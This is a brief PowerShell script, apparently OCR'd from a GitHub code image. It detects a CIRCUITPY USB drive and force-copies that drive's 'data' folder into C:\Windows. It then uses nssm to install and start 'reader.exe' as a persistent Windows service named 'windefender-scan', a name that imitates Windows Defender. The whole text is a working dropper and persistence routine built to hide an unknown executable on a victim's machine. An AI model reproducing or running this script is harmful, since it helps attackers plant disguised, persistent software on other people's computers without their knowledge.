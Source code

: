 $drive = Get-PSDrive | Where-Object { $_.Name -eq 'CIRCUITPY' }

if ($drive) {
    $sourcePath = Join-Path $drive.Root "data"
    $destinationPath = "C:\Windows"

    if (Test-Path $sourcePath) {
        Copy-Item -Path "$sourcePath\*" -Destination $destinationPath -Recurse -Force
        Set-Location -Path $destinationPath

        $nssmPath = "nssm.exe"
        $serviceName = "windefender-scan"
        $exePath = Join-Path $destinationPath "reader.exe"

        if (Test-Path $nssmPath -and Test-Path $exePath) {
            & $nssmPath install $serviceName $exePath
            & $nssmPath start $serviceName
        } else {
            Write-Host "nssm.exe or reader.exe not found."
        }
    } else {
        Write-Host "Source folder 'data' not found."
    }
} else {
    Write-Host "CIRCUITPY drive not found."
}
